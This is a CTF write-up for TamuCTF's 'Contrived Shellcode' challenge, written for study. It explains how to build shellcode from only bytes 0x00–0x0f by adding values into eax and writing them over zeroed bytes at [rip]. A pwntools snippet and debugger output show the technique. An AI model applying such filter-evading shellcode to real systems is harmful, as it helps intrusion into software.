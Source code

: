 # Contrived Shellcode

This shellcode challenge was one of the *hard pwn* problems from [TamuCTF](https://tamuctf.com/challenges). TamuCTF is a great CTF, where [our team](https://research.fit.edu/fitsec) went all in and cleared a lot of the ``pwn`` problems. I started the second day and had to start with this harder problem. The author leaves a fun note about the problem.

## Problem

*There's a 0% chance this has any real world application, but sometimes it's just fun to test your skills.*

Further, the author provides a [binary](contrived-shellcode) and the original [source code](contrived-shellcode.c) for the challenge.

## Solution

Examining the source code, we see it is a shellcode challenge where you are restricted to only the following bytes:

```c
unsigned char whitelist[] = "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f";
```

This is similar to the [gelcode-2 problem](https://ctftime.org/writeup/29138) from RedPwnCTF 21 (which was limited to only bytes 01-05.) Inspired by [lms](https://ctftime.org/user/52568)'s solution to that particular problem, I took a similar approach that ``adds`` a value into ``eax`` and inserts it as the following instruction by adding eax to ``[rip]`` (which is zeroed to 0x0000000000000000.)

To illustrate how this works, let us examine the ``pop rsi`` instruction. For ``pop rsi``, we need to ``add eax`` up to ``0x5e``. However, we cant use ``add eax, 0x5e`` since ``0x5e`` is not in our whitelist. For that reason, we need to use multiple adds ``0xf+0xf+0xf+0xf+0xf+0xf+0x4``. 

```python
rsi_pop = asm('add al, 0xf')*6
rsi_pop += asm('add al, 0x4')
rsi_pop += asm('add dword ptr [rip], eax')
```

We can test this methodology to see if this works in the debugger output. where we see ```pop rsi``` appear after executing ``add    dword ptr [rip], eax``.

```
  ...
─────────────────────────[ DISASM / x86-64 / 
  0x7f2d4dd61000    add    al, 0xf
  0x7f2d4dd61002    add    al, 0xf
  0x7f2d4dd61004    add    al, 0xf
  0x7f2d4dd61006    add    al, 0xf
  0x7f2d4dd61008    add    al, 0xf
  0x7f2d4dd6100a    add    al, 0xf
  0x7f2d4dd6100c    add    al, 4
  0x7f2d4dd6100e    add    dword ptr [rip], eax
► 0x7f2d4dd61014    pop    rsi
```
